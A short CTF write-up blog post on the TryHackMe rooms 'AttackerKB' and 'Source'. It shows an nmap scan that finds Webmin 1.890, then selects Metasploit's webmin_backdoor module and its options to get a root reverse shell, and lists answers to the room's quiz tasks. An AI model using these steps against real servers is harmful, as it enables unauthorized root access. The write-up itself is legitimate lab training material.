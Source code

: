 ```yaml
---
layout: post
title: AttackerKB & Source | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-11 18:42:53 +0800'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```


 Hallå gubbar , Today i will show you how easy this boxes are in a very simple explanation both [AttackerKB](https://tryhackme.com/room/attackerkb) &  [Source](https://tryhackme.com/room/source).
 




`1 - Enumeration`
`2 - Exploitation`
`3-  Reverse shell`
`4-AttackerKB Tasks`


### 1 - Enumerationnmap scan :

```sh
$ nmap -T4 -A -v -Pn Box-ip
```
Results:



> PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| 256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_ 256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open http MiniServ 1.890 (Webmin httpd)


### 2 - Exploitation
Source and AttackerKB:

One of the attached files of vulnerability is metasploit module that will allow us reverse shell the box so let open Metasploit


[https://github.com/rapid7/metasploit-framework/pull/12219]()


using this command:

```sh
$ msfconsole
```



then search "the exploit name or version"


![alt text](https://thelastvvv.github.io/images/posts/1/attack.png "search")


then choose 
```sh
$ unix/webapp/webmin_backdoor
```

![alt text](/blob/master/images/posts/1/attavk.png "metasploit")



> RHOSTS : Box-ip

>RPORT: Box-port

>LHOST: Your-ip

>SSL : 1


### 3- Reverse shell


volia session opened we are root so let check the hints and hunt the flags

User Flag:




Root Flag:



### 4-AttackerKB Tasks:

Task 2 -Discovering the Lay of the Land :

From Nmap results we can find all our answers .....

Answers: 
`2-Webmin`
`3-1.890`
`4- from cert bellow figure it out`
### Task 3 - learning to fly:
Just explore Attackerkb then we will be able to answer the following "important to copy directly from Attackerkb site 

Answers: 
`3 1.890` 
`4 supply chain`
 `5 aug172019`
`6 githubfileinthetitle`



See you next time .....
